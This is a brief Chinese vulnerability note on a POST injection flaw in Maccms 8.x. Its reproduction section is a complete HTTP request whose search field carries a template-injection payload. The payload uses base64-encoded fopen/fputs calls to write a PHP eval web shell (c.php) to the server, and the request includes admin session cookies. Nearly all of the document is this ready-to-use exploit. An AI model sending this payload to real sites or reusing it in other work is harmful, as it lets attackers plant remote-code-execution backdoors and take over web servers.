 # Maccms 8.x(苹果cms)post注入

> 原文：[https://www.zhihuifly.com/t/topic/3012](https://www.zhihuifly.com/t/topic/3012)

# Maccms 8.x post注入

## 一、漏洞简介

苹果cms 8.x 注入

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

```
POST /index.php?m=vod-search HTTP/1.1
Host: 0-sec.org
Content-Length: 500137
Cache-Control: max-age=0
Origin: http://word.o2oxy.cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://word.o2oxy.cn/index.php?m=vod-search
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_ff7f6fcad4e6116760e7b632f9614dc2=1574418087,1574670614,1574673402,1575271439; Hm_lvt_137ae1af30761db81edff2e16f0bf0f8=1574418087,1574670615,1574673402,1575275889; pgv_pvi=8322096128; PHPSESSID=pr37r8fkshd854f8fnfep4ov53; adminid=1; adminname=admin; adminlevels=b%2Cc%2Cd%2Ce%2Cf%2Cg%2Ch%2Ci%2Cj; admincheck=2afdbd385cb6c2af162e6733f1b0e2d2
Connection: close `wd=uniona(这里a为80w个，可用Burp直接生成){if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}` 
```